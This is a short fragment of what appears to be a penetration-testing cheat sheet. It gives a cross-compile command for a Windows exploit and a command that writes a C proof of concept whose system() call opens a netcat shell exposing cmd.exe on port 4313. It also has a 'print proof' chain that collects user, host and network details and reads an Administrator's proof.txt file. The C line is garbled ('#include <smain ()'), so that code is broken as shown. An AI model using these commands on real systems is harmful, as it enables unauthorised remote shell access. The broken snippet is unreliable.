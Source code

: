 ```
i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe
```

#### Run an arbitrary command:

```
echo -e '#include <stdio.h>\n#include <smain () {\nsystem("C:\\Users\\Administrator\\Desktop\\nc -lvp 4313 -e cmd.exe");\nreturn(0);\n}'> poc.c
```

## Print proof

```
echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```
